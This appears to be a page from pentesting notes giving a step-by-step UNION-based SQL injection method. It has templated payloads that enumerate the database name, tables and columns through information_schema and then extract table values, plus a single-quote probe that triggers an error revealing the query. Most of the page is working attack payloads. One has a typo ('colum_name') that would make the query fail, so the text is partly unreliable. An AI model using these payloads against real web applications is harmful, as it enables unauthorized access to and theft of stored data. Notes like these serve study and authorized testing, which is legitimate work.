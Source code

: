 {% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue UNION $found,database() #Try to get database
#This will return the name of DB we are searching
```
{% endcode %}

***

* Check information schema for DB and tables information

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue UNION $found,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '$dbfound'
#This will return a string with all tables of the database
```
{% endcode %}

{% hint style="info" %}
`$dbfound`is the result of previuos query
{% endhint %}

***

* Check information schema for DB and tables information

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue UNION $found,group_concat(colum_name) FROM information_schema.columns WHERE table_name = '$tablefound'
#This will return a string with all colums of the table
```
{% endcode %}

***

* Obtain the values that we were looking for

{% code overflow="wrap" lineNumbers="true" %}
```sql
0 UNION SELECT 1,2,group_concat($value1,$value2) FROM $tablefound
#Obtain values from the table we needed
```
{% endcode %}

***

### Case 2

* Check if  vulnerable by sending a malformed petition with '

{% code overflow="wrap" lineNumbers="true" %}
```sql
"GET /about/2' HTTP/1.1"
#We obtain a 500 error and this code
<code>SELECT firstName, lastName, pfpLink, role, bio FROM $tablename WHERE id = 2'</code>
```
{% endcode %}
